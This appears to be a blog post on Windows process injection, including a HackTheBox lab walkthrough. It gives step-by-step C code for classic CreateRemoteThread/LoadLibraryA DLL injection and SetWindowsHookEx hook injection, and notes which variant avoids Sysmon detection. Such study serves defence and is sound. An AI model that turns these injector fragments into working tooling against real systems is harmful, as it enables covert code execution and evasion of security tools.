








#### **What is the Goal of this attack ?**

Run malicious code inside a legitimate process like `explorer.exe` or `svchost.exe`. Security tools see the legitimate process doing things  not the attacker 


**Step 1 -> Find a target process** 
the attacker needs the Process ID (PID) of the target , using process enumeration **API** like 
```C
CreateToolhelp32Snapshot
Process32First / Process32Next -- enumerate all running process

-- find explorer.exe or svchost.exe by name
-- extract its PID
```

**Step 2 -> Open Process using a handle**
```C

HANDLE hProcess = OpenProcess(
	PROCESS_VM_WRITE |     -- needed for WriteProcessMemory
	PROCESS_VM_OPERATION | -- needed for VirtualAllocEx
	PROCESS_CREATE_THREAD, -- needed for CreateRemoteThread
	FALSE,                 -- do not inherit handle
	targetPID              -- PID of explorer.exe
);

```

A handle to the process can be obtained using `Openprocess()` or` NtOpenProcess` with permission like `PROCESS_ALL_ACCESS` 

**Step 3 -> VirtualAllocEx - Allocate Memory in target** 

```C
LPVOID pRemoteMem = VirtualAllocEx(
	hProcess,            --handle to target process
	NULL,                -- let OS choose address
	strlen(dllPath) + 1, -- size = length of DLL path string
	MEM_COMMIT | MEM_RESERVE,
	PAGE_READWRITE       -- RW is enough for just a string
);

```

This allocate memory inside the target process's virtual address space ,  this memory typically allocated as `RW` that data be written into this memory region , 

**Step 4 -> WriteProcessMemory - Write DLL path**

```C
WriteProcessMemory(
	hProcess,            -- target process handle
	pRemoteMem,          -- address we just allocated
	dllPath,             -- "C:\\Users\\evil\\malicious.dll"
	strlen(dllPath) + 1, -- number of bytes to write
	NULL
)
```

the payload can be ( shellcode , DLL or exe )  using functions like `WriteProcessMemory()` or  `NtWriteVIrtualMemory()` or `memcpy()`Now the target
process has the DLL path sitting in its memory

**Step 5 -> Get LoadLibraryA Address**

```C
HMODULE hKernel32 = GetModuleHandle("kernel32.dll");
FARPROC pLoadLibrary = GetProcAddress(hKernel32, "LoadLibraryA");
```
 LoadLibraryA is the windows API that loads DLL by file path . The attacker needs its
 address to use it as the thread start function. 

	 Note ->  kernel32.dll is loaded at the same address in ALL 
	 processes (ASLR randomises per-boot but is consistent
     within one boot session), so the address found in the   
     attacker'sprocess is valid in the target process too

**Step 6: CreateRemoteThread  Execute LoadLibrary in Target**

```C

HANDLE hThread = CreateRemoteThread(
	hProcess,     -- target process
	NULL,         -- default security
	0,            -- default stack size
	pLoadLibrary, -- start function = LoadLibraryA
	pRemoteMem,   -- argument = pointer to DLL path string
	0,            -- run immediately (not CREATE_SUSPENDED)
	NULL
);
```
This creates a new thread inside the target process. That thread starts executing at LoadLibraryA, with the DLL path as its argument. Windows then loads the malicious DLL into the target process running DllMain and executing the payload.

#### **Some other injection Variation**

| **Variant**      | **Mechanism**                 | **Key Difference**                                                                                         |
| ---------------- | ----------------------------- | ---------------------------------------------------------------------------------------------------------- |
| **Classic_CRT**  | `CreateRemoteThread` directly | **Most detectable** :- typically triggers EDR/AV alerts (like EID 8) immediately upon execution.           |
| **Classic_Hook** | `SetWindowsHookEx` to inject  | Uses **message hooks** :- the thread start is indirect, making it slightly less obvious than direct calls. |
| **Mixed**        | Combination of techniques     | **Harder to classify** :- blends features of multiple variants to bypass specific heuristic signatures.    |

Lets see how does **Classic_Hook** works though

#### Classic Hook Injection

The hook method relies on Windows messaging system flows .Instead of creating Remote thread , we ask windows to execute our DLL when a certain event happens in the process , run the  DLL

example set of code 

```C++
// 1. Load the malicious DLL into our own process first
HMODULE hDll = LoadLibraryExA("C:\\evil.dll", NULL, DONT_RESOLVE_DLL_REFERENCES);

// 2. Get the address of an exported function (e.g., "PluginInit")
// This is the function that will execute inside the target
FARPROC pFunc = GetProcAddress(hDll, "PluginInit");

// 3. Find the Thread ID (TID) of the target window 
HWND hwnd = FindWindowA(NULL, "Untitled - Notepad");
DWORD tid = GetWindowThreadProcessId(hwnd, NULL);

// 4. Install the Hook
HHOOK hHook = SetWindowsHookEx(
    WH_KEYBOARD, // Hook type: monitors keystroke messages
    (HOOKPROC)pFunc, 
    hDll,        // Handle to our DLL
    tid          // The target thread ID
);
```

##### What makes it stealthier than **CreateRemoteThread** ?

When the user press a key in Notepad , Windows realizes there is a `WH_KEYBOARD` hook which automatically map to our evil.dll into Notepad.exe to execute the hook function , unlike `CreateRemoteThread` we wont see `Sysmon EventID` 8 instead we will see Module load event which happens all the times in windows

#### Mixed - Combination of techniques

When an threat attackers execute more than one injection technique in the same process window eg :- classic_CRT injection happening while a reflective injection also running 

**In real-world Scenarios** 
- **Cobalt Strike Beacon** uses reflective loading to inject itself, then uses classic thread injection to migrate to another process
- **Metasploit Meterpreter** injects reflectively, then spawns additional threads using classic methods
- A multi-stage attack might sideload a DLL that then performs reflective injection into a second process

I would be slowly uploading code explanation on this attacks and scenarios on upcoming blogs 


### Inspection of DLL injection ()

	Note :-  A 32-bit dll cannot be be loaded by 64-bit process and 
	vice-versa due to its difference in architecture



This one of hackthebox lab from the process injection module which help me to thoroughly understand how does and remote DLL injection works lets do an walkthrough of it

Injector: `injection1.exe` → Target: `notepad.exe` 
`OpenProcess` gives us a handle to notepad, then we allocate a `RW` memory region inside it. Using **WinDbg**, we can watch `WriteProcessMemory()` in action - follow the allocated address in the dump and it's empty at first. Once the function is called, it gets populated with the DLL path.


we can use **follow in dump** on the allocated address


as you can see as of now its empty once we call the `WriteProcessMemory()` function is called , which writes the DLL path to this address


after calling the function we can see it populated with DLL path




`CreateRemoteThread()` -  Making the Target Load Our DLL
This is the final step - actually triggering the injection. Here's the function signature:
```C++
HANDLE CreateRemoteThread(
  [in]  HANDLE                 hProcess,
  [in]  LPSECURITY_ATTRIBUTES  lpThreadAttributes,
  [in]  SIZE_T                 dwStackSize,
  [in]  LPTHREAD_START_ROUTINE lpStartAddress,
  [in]  LPVOID                 lpParameter,
  [in]  DWORD                  dwCreationFlags,
  [out] LPDWORD                lpThreadId
);
```

Two parameters do all the heavy lifting here  - let's break them down.
**`lpStartAddress` - where the thread begins**
This is set to the address of `LoadLibraryA`. Think of it like this: when you create a normal thread, you point it at a function you wrote. Here we're pointing it at a Windows built-in  `LoadLibraryA` - whose whole job is to load a DLL into memory.
So instead of running our own code directly, we're _hijacking_ a legitimate Windows function to do the loading for us inside the target process.


**`lpParameter` - what gets passed to that function**
`LoadLibraryA` takes one argument: a file path to the DLL it should load. This parameter holds `dllPathAddr` - the pointer to the DLL path string we wrote into the target's memory back in Step 4.

So when the thread starts, it's essentially calling:


Using the function `CreateRemoteThread`, a new thread is created in the target process (notepad.exe), and its start address is set to `LoadLibraryA`, passing the DLL path (`dllPathAddr`) as an argument. This causes the specified DLL to be loaded into the address space of notepad.exe, effectively injecting the DLL into the process.

```

CreateRemoteThread
    │
    ├── starts a new thread inside notepad.exe
    ├── thread begins executing at LoadLibraryA
    └── passes our DLL path as the argument
            │
            └── notepad.exe loads the DLL
                    │
                    └── DllMain runs → payload executes
                    
```


